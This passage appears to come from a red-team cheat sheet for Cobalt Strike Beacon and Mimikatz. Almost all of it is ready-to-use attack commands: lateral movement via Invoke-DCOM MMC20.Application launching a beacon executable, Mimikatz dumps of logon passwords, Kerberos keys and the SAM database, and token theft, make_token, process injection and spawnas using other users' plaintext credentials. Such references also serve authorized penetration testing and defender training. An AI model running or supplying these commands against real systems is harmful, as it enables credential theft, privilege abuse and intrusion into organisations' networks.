 ```
powershell Invoke-DCOM -ComputerName <HOSTNAME> -Method MMC20.Application -Command C:\Windows\beacon-smb.exe
```

#### Credentials

**Mimikatz logonpasswords**

```
mimikatz sekurlsa::logonpasswords
```

**Mimikatz ekeys**

```
mimikatz sekurlsa::ekeys
```

**Mimikatz sam**

```
mimikatz lsadump::sam
```

**Make token - runas other user**

```
make_token <DOMAIN>\<USER> <PASSWORD>
```

**rev2self**

* Undo the make token

```
rev2self
```

**Steal token**

```
steal_token 3320
steal_token <PID>
```

**Inject payload into process**

```
inject 3320 x64 tcp-4444-local
inject <PID> <ARCH> <BEACON>
```

**Spawnas**

* Will spawn a new process using the plaintext credentials of another user and inject a Beacon payload into it.
* Must be run from a folder the user has access to.
* This command does not require local admin privileges and will also usually fail if run from a SYSTEM Beacon.

```
spawnas <DOMAIN>\<USER> <PASSWORD> <BEACON>
```
